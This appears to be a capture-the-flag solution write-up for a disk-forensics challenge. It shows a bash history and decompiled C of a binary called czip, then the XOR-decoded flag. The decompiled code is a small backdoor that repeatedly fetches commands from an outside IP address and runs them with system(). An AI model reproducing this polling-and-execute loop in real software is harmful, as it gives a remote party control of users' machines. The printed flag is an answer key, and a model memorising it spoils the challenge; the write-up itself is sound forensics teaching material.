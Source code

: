 # Solution

*This is merely the solution. In-depth author writeups will be available 2023.09.07 at [shawnd.xyz/blog](https://shawnd.xyz/blog/).*

Decompress the attachment.

```sh
$ gunzip image.gz
```

There are a lot of ways to approach this challenge. One way is to mount the filesystem and then read the traces left behind in the `.bash_history` for a lead:

```
...
ls
file czip
./czip 
rm czip 
cd $(mktemp -d)
gcc main.c -o czip
./czip 
mv czip /bin/
cd ../
rmdir tmp.plyllfmAUH/
rm -rf tmp.plyllfmAUH/ 
cd
czip 
exit
...
```

Reverse engineering `/bin/czip` shows that it's malware:

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+8h] [rbp-4D8h]
  int j; // [rsp+Ch] [rbp-4D4h]
  __int64 v5[8]; // [rsp+10h] [rbp-4D0h]
  _DWORD v6[18]; // [rsp+50h] [rbp-490h] BYREF
  __int64 v7; // [rsp+98h] [rbp-448h]
  __int64 v8; // [rsp+A0h] [rbp-440h]
  __int64 v9; // [rsp+A8h] [rbp-438h]
  __int64 v10; // [rsp+B0h] [rbp-430h]
  __int64 v11; // [rsp+B8h] [rbp-428h]
  __int64 v12; // [rsp+C0h] [rbp-420h]
  __int64 v13; // [rsp+C8h] [rbp-418h]
  char command[8]; // [rsp+D0h] [rbp-410h] BYREF
  __int64 v15; // [rsp+D8h] [rbp-408h]
  char v16[1008]; // [rsp+E0h] [rbp-400h] BYREF
  unsigned __int64 v17; // [rsp+4D8h] [rbp-8h]

  v17 = __readfsqword(0x28u);
  *(_QWORD *)command = 0LL;
  v15 = 0LL;
  memset(v16, 0, sizeof(v16));
  v5[0] = 0x273F36094A0B0418LL;
  v5[1] = 0xB5D6C1F12011D13LL;
  v5[2] = 0x5336120216100432LL;
  v5[3] = 0xA547D410A2F0107LL;
  v5[4] = 0x7E0607341E0A1A38LL;
  v5[5] = 0x56360913556D5501LL;
  v5[6] = 0x9044B561E0C121FLL;
  v5[7] = 0xD5C540810035A25LL;
  strcpy((char *)v6, "Bae9lukahy0at3ieShie3aigiephuHeighohQu3Ool2aalielaipazeezohy9eip");
  BYTE1(v6[16]) = 0;
  HIWORD(v6[16]) = 0;
  v6[17] = 0;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  v12 = 0LL;
  v13 = 0LL;
  for ( i = 0; i <= 63; ++i )
    *((_BYTE *)&v6[16] + i) = *((_BYTE *)v6 + i) ^ *((_BYTE *)v5 + i);
  for ( j = 0; j <= 63; ++j )
    *((_BYTE *)&v6[16] + j) = 0;
  while ( 1 )
  {
    poll("45.76.9.43", 9999LL, command);
    system(command);
    sleep(0xE10u);
  }
}
```

`v5` is XOR'ed with `v6`, then zeroed. Performing the XOR reveals the flag:

```
ZenseCTF{d1sk_4nalys1s_4nd_b451c_rever51n9_4re_3ssen71al_5ki115}
```
